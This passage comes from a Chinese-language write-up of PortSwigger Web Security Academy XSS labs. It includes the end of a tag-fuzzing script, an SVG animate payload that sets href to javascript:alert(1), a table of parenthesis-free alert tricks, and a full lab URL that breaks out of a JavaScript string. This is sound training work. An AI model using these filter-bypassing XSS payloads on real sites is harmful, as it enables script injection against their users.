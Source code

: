 ```js
      `${location.origin}/?search=${encodeURIComponent(html)}`,
    );
    console.log({ onevent, status: res.status });
  }
}
test();
```

最終得出 `a`, `image`, `svg`, `title`

這題後來也是投降，參考解答，給出的 payload 讓我又學到 `<animate attributeName="href" values="javascript:alert(1)" />` 這個新東西了～


```html
<svg><a><animate attributeName="href" values="javascript:alert(1)" /><text x=20 y=20>Click me</text></a></svg>
```

## Lab: Reflected XSS in a JavaScript URL with some characters blocked

| Dimension | Description                                                                                                   |
| --------- | ------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string        |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked |

我們有的工具包如下：

| Malicious JavaScript                          | Description                                                                           |
| --------------------------------------------- | ------------------------------------------------------------------------------------- |
| `onerror=alert;throw 1`                       | `alert(1)` without using ( and )                                                      |
| `<script>onerror=alert;throw 1337</script>`   | Set `onerror` event on window, `alert(1337)` without using `(` and `)`                |
| `<script>{onerror=alert}throw 1337</script>`  | Set `onerror` event on window, `alert(1337)` without using `(`, `)` and `;`           |
| `<script>throw onerror=alert,'haha'</script>` | Set `onerror` event on window, `alert(1337)` without using `(`, `)`, `{`, `}` and `;` |

這題的注入點在這裡


```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d1'}).finally(_ => window.location = '/')">Back to Blog</a>
```

想像上 `https://0a6b009f032d58a280cf0da400440021.web-security-academy.net/post?postId=1` 到這邊都是必備的

這題也是妖魔鬼怪，看了答案也是看不懂的那種

```
https://0a6b009f032d58a280cf0da400440021.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
